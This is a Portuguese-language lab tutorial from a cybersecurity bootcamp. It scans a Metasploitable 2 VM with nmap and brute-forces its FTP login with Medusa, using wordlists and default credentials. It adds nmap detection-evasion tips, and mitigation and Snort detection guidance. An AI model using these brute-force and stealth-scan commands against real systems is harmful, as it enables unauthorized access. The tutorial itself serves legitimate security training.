

# **Desafio**: Simulando um Ataque de Brute Force de Senhas com Medusa em FTP no Metasploitable 2

🟢 FINALIZADO - Simulação concluída com êxito.   

> [!IMPORTANT]
>  Este tutorial utiliza o Metasploitable 2 baixado da Sourceforge.  
> As VMs Kali e Metasploitable 2 estão configuradas na mesma rede **host-only** no VirtualBox.

--- 

- Esse tutorial feito por mim e com ajuda de IA como assistente, faz parte do Desafio **Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux** da Trilha de Aprendizado Santander Cibersergurança 2025 em parceria com a DIO.
- Cenário do desafio: Executar ataques simulados com força bruta em FTP, utilizando Kali Linux e a ferramenta Medusa, em conjunto com ambientes vulneráveis (Metasploitable 2)  

## 📑 Índice

- [🔧 Pré-requisitos](#-pré-requisitos)
- [🎯 Objetivos do Tutorial](#-objetivos-do-tutorial)
- [🔍 Passo 1: Descobrir o IP do Metasploitable 2](#passo-1-descobrir-o-ip-do-metasploitable-2)
- [📡 Passo 2: Escanear serviços do Metasploitable](#passo-2-escanear-serviços-do-metasploitable)
- [🔐 Passo 3: Conectar via FTP](#passo-3-conectar-via-ftp)
- [💣 Passo 4: Ataque de Força Bruta com Medusa](#passo-4-ataque-de-força-bruta-com-medusa)
- [🎯 Dicas Extras: Escaneamento Profissional com Nmap](#-dicas-extras-escaneamento-profissional-com-nmap)
- [🛡️ Sistemas de Segurança e Detecção](#️-sistemas-de-segurança-e-detecção)
- [⚠️ Avisos Importantes](#️-avisos-importantes)
- [🔒 Dicas de Mitigação e Segurança](#-dicas-de-mitigação-e-segurança)
- [📚 Recursos Adicionais](#-recursos-adicionais)

>[!TIP]  
>**Para ajuda com as configurações das VMs:**  
>🔗 [Meu GitHub - Laboratório de Segurança](https://github.com/ThiagoMaria-SecurityIT/Bootcamp_DIO_e_Santander-Ciberseguran-a_2025/tree/main/security-training-lab)  

---

## 🔧 Pré-requisitos

- VirtualBox instalado
- Kali Linux configurado
- Metasploitable 2 baixado da Sourceforge
- VMs na mesma rede host-only
- Conhecimento básico de linha de comando

## 🎯 Objetivos do Tutorial

- Aprender escaneamento de rede com Nmap
- Identificar serviços vulneráveis
- Praticar ataques de força bruta com Medusa
- Entender técnicas de mitigação
- Desenvolver consciência sobre segurança ofensiva e defensiva

*Continue lendo para os passos práticos...*

---

## **Passo 1: Descobrir o IP do Metasploitable 2**

### No Kali Linux:
1. Abra o terminal
2. Execute o comando para ver sua interface de rede:
```bash
ifconfig
```
ou
```bash
ip a
```

3. Procure pela interface na rede host-only (geralmente `eth0`, `eth1` ou `ens33`)
4. No nosso caso, o ip aparece na frente da palavra `inet` com o número `192.168.56.109/24`
5. Anote o IP do Kali (ex: `192.168.56.109`)

### Escaneamento da rede para encontrar o Metasploitable:
Se o IP do Kali é 192.168.56.109, significa que a rede é 192.168.56.0, então vamos escanear ela:  

```bash
nmap -sn 192.168.56.0/24
```

**Exemplo de saída:**
```
Starting Nmap 7.94SVN ( https://nmap.org )
Nmap scan report for 192.168.56.109
Host is up (0.00017s latency).
Nmap scan report for 192.168.56.110
Host is up (0.00048s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 2.45 seconds
```

Achamos 2 IPs: 192.168.56.109 e 192.168.56.110  
Já sabemos que o IP do Kali é o com final 109, então o outro IP não é dele.  
Neste caso, achamos o IP **192.168.56.110** que é o IP do Metasploitable!   

## **Passo 2: Escanear serviços do Metasploitable**

```bash
nmap -sV -A 192.168.56.110
```

**Você verá que o FTP está aberto:**
```
21/tcp open  ftp     vsftpd 2.3.4
```

## **Passo 3: Conectar via FTP**

### Conexão FTP direta:
No terminal do Kali:

```bash
ftp 192.168.56.110
```

**Quando pedir credenciais:**
- **Username:** `msfadmin`
- **Password:** `msfadmin`

**Comandos FTP úteis:**
```ftp
ls              # Listar arquivos
pwd             # Ver diretório atual
cd /            # Mudar para diretório raiz
exit            # Sair
```

## **Passo 4: Ataque de Força Bruta com Medusa**

### Criar arquivos de wordlist:
No Kali:

- Para criar a wordlist para os usernames:
     
**users.txt:**
```bash
echo "test" > users.txt
echo "admin" >> users.txt
echo "msfadmin" >> users.txt
echo "username" >> users.txt
```
ou:  
```bash
echo -e "test\nadmin\nmsfadmin\nusername" > users.txt
```
- Para criar a wordlist para as senhas:
     
**pass.txt:**
```bash
echo "msfadmin" > pass.txt
echo "admin" >> pass.txt
echo "123456" >> pass.txt
echo "password" >> pass.txt
```
ou:  

```bash
echo -e "msfadmin\nadmin\n123456\npassword" > pass.txt
```

### Executar Medusa com um único username:
```bash
medusa -h 192.168.56.110 -u msfadmin -P pass.txt -M ftp
```

**Ou para testar múltiplos usuários:**
```bash
medusa -h 192.168.56.110 -U users.txt -P pass.txt -M ftp -v 6
```

**Parâmetros explicados:**
- `-h`: IP alvo
- `-u`: Usuário único
- `-U`: Arquivo com lista de usuários
- `-P`: Arquivo com lista de senhas
- `-M`: Módulo (ftp no nosso caso)

## **Resultado: ✨ SUCCESS ✨**

```
ACCOUNT FOUND: [ftp] Host: 192.168.56.110 User: msfadmin Password: msfadmin [SUCCESS]
```
      

---

## **🎯 DICAS EXTRAS: ESCANEAMENTO PROFISSIONAL COM NMAP**

### **🔍 Comandos Nmap para Diferentes Cenários:**

#### **Para Laboratório (Rápido):**
```bash
nmap -T4 -A 192.168.56.110
```

#### **Para Pentest Real (Discreto):**
```bash
nmap -sS -T2 192.168.56.110
```

#### **Scan Muito Discreto:**
```bash
nmap -sS -T1 --max-rate 10 192.168.56.110
```

#### **Scan de Vulnerabilidades:**
```bash
nmap --script vuln 192.168.56.110
```

### **📊 Timing Templates do Nmap:**
- **`-T0`** (Paranoid): Muito lento, máxima evasão
- **`-T1`** (Sneaky): Muito discreto  
- **`-T2`** (Polite): Discreto, bom para pentest
- **`-T3`** (Normal): Padrão balanceado
- **`-T4`** (Aggressive): Rápido, maior detecção
- **`-T5`** (Insane): Muito rápido, alta detecção

---

## **🛡️ SISTEMAS DE SEGURANÇA E DETECÇÃO**

### **Quem Detecta Scans Nmap:**

#### **✅ Sistemas que DETECTAM Facilmente:**
- **SIEM** (Splunk, QRadar, ArcSight)
- **IDS/IPS** (Snort, Suricata, Security Onion)
- **Firewalls Corporativos** (Palo Alto, Fortinet)
- **EDR** (CrowdStrike, SentinelOne)

#### **🟡 Sistemas que PODEM Detectar o Nmap:**
- **Antivírus**: Podem flagar ferramentas como o Nmap como "HackTool", quando não autorizado a fazer o escaneamento ou quando tentar instalar ele.
- **Verifique as políticas de segurança** do seu sistema operacional.     

### **🚨 Scans Fáceis de Detectar:**
```bash
nmap -v 192.168.56.0/24          # Muito verboso (bom para testar no lab em casa se esquecer os comandos)
nmap -A -T4 192.168.56.110       # Agressivo
nmap -p- 192.168.56.110          # Todas portas rápido
```

### **🟢 Scans Mais Discretos:**
```bash
nmap -sn 192.168.56.0/24         # Apenas discovery
nmap -sS -T2 192.168.56.110      # Lento e discreto
nmap --max-rate 20 192.168.56.110 # Limita pacotes
```

### **🎯 Dicas para Evitar Detecção:** 🤫 não conte para ninguém, hein? Rsrs  
- Use timing **-T1 ou -T2** para pentest real
- Limite taxa de pacotes com **`--max-rate`**
- Distribua scans por vários dias/horários
- Use **`-f`** para fragmentação de pacotes
- Evite modo verboso **`-v`** em ambientes reais

---

## **⚠️ AVISOS IMPORTANTES:**

1. **SEMPRE TENHA AUTORIZAÇÃO** para escanear sistemas
2. **Documente tudo** durante pentests autorizados
3. **Scans agressivos** podem causar problemas de rede
4. **Conheça as leis locais** sobre segurança cibernética
5. **Tutorial para fins educativo** Proibido a utilização do mesmo para testes e ataques reais
6. **Não me responsabilizo** pela utilização não autorizada desse tutorial ou de partes dele
7. **Todo conteúdo** desse tutorial pode ser facilmente encontrado na internet e de forma gratuita  
   
---

## **🔒 DICAS DE MITIGAÇÃO E SEGURANÇA**

### **🛡️ Proteção Contra Senhas Fracas:**

#### **Políticas de Senha Forte:**
- **Mínimo de 12 caracteres** para usuários comuns
- **Mínimo de 15 caracteres** para administradores
- **Combinação** de maiúsculas, minúsculas, números e símbolos
- **Proibição** de senhas comuns (123456, password, admin, etc.)
- **Troca obrigatória** a cada 90 dias
- **Histórico de senhas** para evitar reutilização

#### **Autenticação Multi-Fator (MFA):**
```bash
# Sempre habilitar MFA para:
# - Acesso administrativo
# - Serviços expostos na internet
# - Usuários com privilégios elevados
```

#### **Bloqueio de Conta por Tentativas:**
- **Bloquear após 5 tentativas** falhas de login
- **Tempo de bloqueio**: 30 minutos
- **Alertar administradores** sobre múltiplas tentativas

### **📡 Monitoramento de Rede Contra Scans Não Autorizados:**

#### **Configurações de Detecção:**
```bash
# Exemplo de regra Snort para detectar scans:
alert tcp any any -> any any (msg:"NMAP TCP Scan"; flow:stateless; flags:S,12; threshold: type threshold, track by_src, count 10, seconds 60; sid:1000001;)
```

#### **Monitoramento Proativo:**
- **Alertas para múltiplas conexões SYN** em curto período
- **Detecção de varredura de portas** sequenciais
- **Monitoramento de tráfego anormal** fora do horário comercial
- **Análise de logs de firewall** em tempo real

#### **Ferramentas Recomendadas:**
- **SIEM**: Splunk, Elastic Security, Wazuh
- **IDS/IPS**: Snort, Suricata, Security Onion
- **EDR**: CrowdStrike, SentinelOne, Microsoft Defender
- **Firewalls**: Configurar regras contra port scanning

### **🔧 Hardening de Serviços FTP:**

#### **Para FTP Tradicional:**
- Usar **SFTP/FTPS** instead of plain FTP
- **Desabilitar usuários anônimos**
- **Restringir acesso** por IP
- **Limitar tentativas** de login
- **Monitorar logs** de autenticação

#### **Configurações Seguras:**
```bash
# Exemplo vsftpd.conf seguro:
anonymous_enable=NO
local_enable=YES
chroot_local_user=YES
max_login_fails=3
connection_limit_per_ip=3
```

### **🚨 Resposta a Incidentes:**

#### **Plano de Ação para Scans Detectados:**
1. **Identificar origem** do scan
2. **Bloquear IP** temporariamente no firewall
3. **Analisar logs** para determinar escopo
4. **Verificar sistemas** por comprometimento
5. **Documentar incidente** para melhorias futuras

#### **Indicadores de Comprometimento (IOCs):**
- Múltiplas tentativas de login FTP falhas
- Conexões de IPs não autorizados
- Padrões de scan fora do horário comercial
- Tráfego para portas não utilizadas

### **📊 Melhores Práticas Gerais:**

- **Segmentação de rede** para limitar acesso
- **Atualizações regulares** de sistemas e serviços
- **Backups frequentes** com teste de restauração
- **Treinamento de usuários** sobre segurança
- **Testes de penetração** regulares autorizados

---

## **📚 RECURSOS ADICIONAIS**

### **🔧 Ferramentas e Distribuições:**
- **Kali Linux**: [kali.org](https://www.kali.org/) - Distribuição para testes de segurança
- **Metasploitable 2**: [SourceForge](https://sourceforge.net/projects/metasploitable/) - VM vulnerável para prática
- **VirtualBox**: [virtualbox.org](https://www.virtualbox.org/) - Virtualização para laboratório
- **Nmap**: [nmap.org](https://nmap.org/) - Documentação oficial e guias

### **📖 Documentação Oficial:**
- **Manual Nmap**: `man nmap` ou [nmap.org/book](https://nmap.org/book/)
- **Manual Medusa**: `man medusa`
- **Documentação Metasploit**: [docs.metasploit.com](https://docs.metasploit.com/)

### **🎓 Cursos e Laboratórios:**
- **DIO (Digital Innovation One)**: Formações em cybersecurity
- **TryHackMe**: [tryhackme.com](https://tryhackme.com/) - Laboratórios interativos
- **Hack The Box**: [hackthebox.com](https://www.hackthebox.com/) - Desafios práticos
- **Cybrary**: [cybrary.it](https://www.cybrary.it/) - Cursos gratuitos

### **📚 Livros Recomendados:**
- "The Web Application Hacker's Handbook" - Dafydd Stuttard & Marcus Pinto
- "Metasploit: The Penetration Tester's Guide" - David Kennedy et al.
- "Nmap Network Scanning" - Gordon Lyon (Fyodor)

### **🔍 Laboratórios Práticos:**
- **VulnHub**: [vulnhub.com](https://www.vulnhub.com/) - VMs vulneráveis para prática
- **OverTheWire**: [overthewire.org](https://overthewire.org/wargames/) - Wargames para aprendizado
- **PentesterLab**: [pentesterlab.com](https://pentesterlab.com/) - Exercícios práticos

### **📊 Ferramentas Complementares:**
- **Hydra**: Alternativa ao Medusa para força bruta
- **Burp Suite**: Teste de aplicações web
- **Wireshark**: Análise de tráfego de rede
- **John the Ripper**: Quebra de hashes

### **🛡️ Recursos de Segurança Defensiva:**
- **OWASP**: [owasp.org](https://owasp.org/) - Projeto aberto de segurança web
- **SANS Security**: [sans.org](https://www.sans.org/) - Recursos e treinamentos
- **CIS Benchmarks**: [cisecurity.org](https://www.cisecurity.org/cis-benchmarks/) - Melhores práticas

--- 

**Lembre-se**: Segurança é um processo contínuo, não um destino! 🔒

By Thiago Maria  
Meu LinkedIn: [Thiago Maria](https://www.linkedin.com/in/thiago-cequeira-99202239/)  
Bons estudos! 🚀
